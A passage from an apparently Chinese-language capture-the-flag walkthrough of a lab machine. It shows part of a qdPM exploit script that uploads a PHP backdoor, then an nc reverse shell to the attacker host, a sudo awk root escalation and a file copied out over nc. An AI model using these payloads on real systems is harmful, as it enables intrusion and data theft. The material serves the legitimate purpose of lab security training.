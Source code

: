         csrftoken_ =account_tree.xpath("//input[@name='users[_csrf_token]']/@value")
        req(userid, username, csrftoken_, EMAIL, HOSTNAME)
        get_file = session_requests.get(HOSTNAME + 'index.php/myAccount')
        final_tree = html.fromstring(get_file.content)
        backdoor =final_tree.xpath("//input[@name='users[photo_preview]']/@value")
        print('Backdoor uploaded at - > ' + HOSTNAME + '/uploads/users/' +backdoor[-1] + '?cmd=whoami')
    
    
    if __name__ == '__main__':
        print("You are not able to use the designated admin account because they do not have a myAccount page.\n")
        parser = ArgumentParser(description='qdmp - Path traversal + RCE Exploit')
        parser.add_argument('-url', '--host', dest='hostname', help='Project URL')
        parser.add_argument('-u', '--email', dest='email', help='User email(Any privilege account)')
        parser.add_argument('-p', '--password', dest='password', help='User password')
        args = parser.parse_args()
        # Added detection if the arguments are passed and populated, if not display the arguments
        if  (len(sys.argv) > 1 and isinstance(args.hostname, str) and isinstance(args.email, str) and isinstance(args.password, str)):
            main(args.hostname, args.email, args.password)
        else:
            parser.print_help()

 **获取shell权限：**

通过命令执行漏洞反弹shell，命令：http://192.168.4.195//uploads/users/542451-backdoor.php?cmd=nc -e /bin/bash 192.168.4.114 6688，kali端开启对6688端口的监听：nc -lvvp 6688，成功获得shell权限，然后通过：python3 -c 'import pty;pty.spawn("/bin/bash")'升级下shell。

![](https://img2022.cnblogs.com/blog/2834847/202211/2834847-20221111142313156-921270265.png)

 **提权：**

查看下当前账户是否存在可以使用的特权命令，sudo -l，显示存在一个awk命令。

![](https://img2022.cnblogs.com/blog/2834847/202211/2834847-20221111143802134-478307333.png)

 查询下awk命令的提权方式进行提权，命令：sudo awk 'BEGIN {system("/bin/sh")}'，提权成功。

![](https://img2022.cnblogs.com/blog/2834847/202211/2834847-20221111144136532-791199989.png)

![](https://img2022.cnblogs.com/blog/2834847/202211/2834847-20221111144047694-193202505.png)

 去root目录下寻找flag未找到，但是发现了一个虚拟机：doubletrouble.ova。

![](https://img2022.cnblogs.com/blog/2834847/202211/2834847-20221111144434513-718666032.png)

 **第二个靶场下载：**

这里使用nc进行文件的传输，靶机中：nc 192.168.4.114 8899 < doubletrouble.ova，kali中：nc -lvvp 8899 > doubletrouble.ova。

![](https://img2022.cnblogs.com/blog/2834847/202211/2834847-20221111150006360-1907068680.png)
